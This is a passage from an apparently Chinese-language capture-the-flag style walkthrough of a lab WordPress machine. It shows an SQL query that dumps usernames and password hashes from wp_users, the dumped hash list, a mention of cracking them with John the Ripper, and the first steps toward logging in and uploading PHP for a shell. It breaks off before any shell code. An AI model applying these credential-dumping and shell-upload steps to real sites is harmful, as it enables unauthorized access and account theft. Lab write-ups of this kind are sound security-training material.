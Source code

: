 将表中的user\_login与user\_pass提取出来并导入文件中，使用john进行爆破

```plain
select concat(user_login,':',user_pass) from wp_users;
John:$P$B7889EMq/erHIuZapMB8GEizebcIy9.    
Elly:$P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0    
Peter:$P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0   
barry:$P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0   
heather:$P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10 
garry:$P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1   
harry:$P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0   
scott:$P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1   
kathy:$P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0   
tim:$P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0     
ZOE:$P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1     
Dave:$P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy.    
Simon:$P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0   
Abby:$P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs.    
Vicki:$P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131   
Pam:$P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0
```

[![](assets/1699929525-71d7c136419ccc39844ac91174f036fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112140216-0867260a-8121-1.png)

得到一些账户和密码

## 获取shell

### 上传php

使用用户名John与密码incorrect进行后台登录：[https://192.168.179.149:12380/blogblog/wp-login.php，进入如下主界面：](https://192.168.179.149:12380/blogblog/wp-login.php%EF%BC%8C%E8%BF%9B%E5%85%A5%E5%A6%82%E4%B8%8B%E4%B8%BB%E7%95%8C%E9%9D%A2%EF%BC%9A)
